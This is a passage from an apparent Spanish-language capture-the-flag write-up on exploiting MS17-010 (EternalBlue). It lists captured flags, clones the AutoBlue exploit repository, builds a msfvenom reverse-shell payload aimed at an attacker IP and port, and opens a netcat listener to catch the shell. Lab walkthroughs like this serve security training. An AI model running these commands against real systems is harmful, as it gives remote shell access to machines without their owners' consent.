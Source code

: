 ![alt text](image-17.png)
![alt text](image-18.png)

##### Bandera1: 0ef3b7d488b11e3e800f547a0765da8e
##### Bandera2: a63c1c39c0c7fd570053343451667939

#### Explotación manual

Para la explotación manual vamos a hacer uso de un repositorio de github del usuario 3ndG4me, en el cual podemos escontrar scripts en python para realizar la explotacion del MS17-010.

        # git clone https://github.com/3ndG4me/AutoBlue-MS17-010.git

Vamos a la carpeta *shellcode* para general el payload que vamos a enviar en el exploit y lo generamos con

        # msfvenom -p windows/x64/shell/reverse_tcp -f raw -o sc_x64_msf.bin EXITFUNC=thread LHOST=192.168.40.129 LPORT=6464

Ahora procedemos a realizar la explotación con python2 ya que para nuevas versiones de python la concatenación que de string y bytes que se hace en el script no está soportada.

Pero antes de la explotación nos aseguramos de estar escuchando en el puerto 6464 para poder recibir reverse shell desde la máquina objetivo.

        # nc -lvp 6464

![alt text](image-28.png)
